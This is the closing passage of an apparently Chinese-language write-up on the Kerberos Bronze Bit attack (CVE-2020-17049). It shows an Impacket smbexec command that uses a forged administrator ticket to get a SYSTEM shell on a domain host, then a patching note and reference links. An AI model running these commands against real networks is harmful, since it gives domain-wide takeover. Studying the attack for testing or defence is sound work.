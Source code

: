 
最后导入ST，访问WIN2012

```bash
export KRB5CCNAME=administrator.ccache
python smbexec.py -no-pass -k WIN2012R203.xie.com
#Impacket v0.11.0 - Copyright 2023 Fortra

#[!] Launching semi-interactive shell - Careful what you execute
#C:\Windows\system32>whoami
#nt authority\system
```

# 漏洞预防与修复

更新微软发布的相关漏洞修补程序。修复原理，在S4u2Self阶段返回的ST，KDC用其密钥对ST进行了前面，并将前面插入到PAC当中，防止了攻击者对ST的篡改


# 参考

- <https://www.netspi.com/blog/technical-blog/network-pentesting/cve-2020-17049-kerberos-bronze-bit-overview/>
- <https://www.netspi.com/blog/technical-blog/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-attack/>
- <https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/0b4d13c4-d459-4598-8f08-1584ca1e24c9>
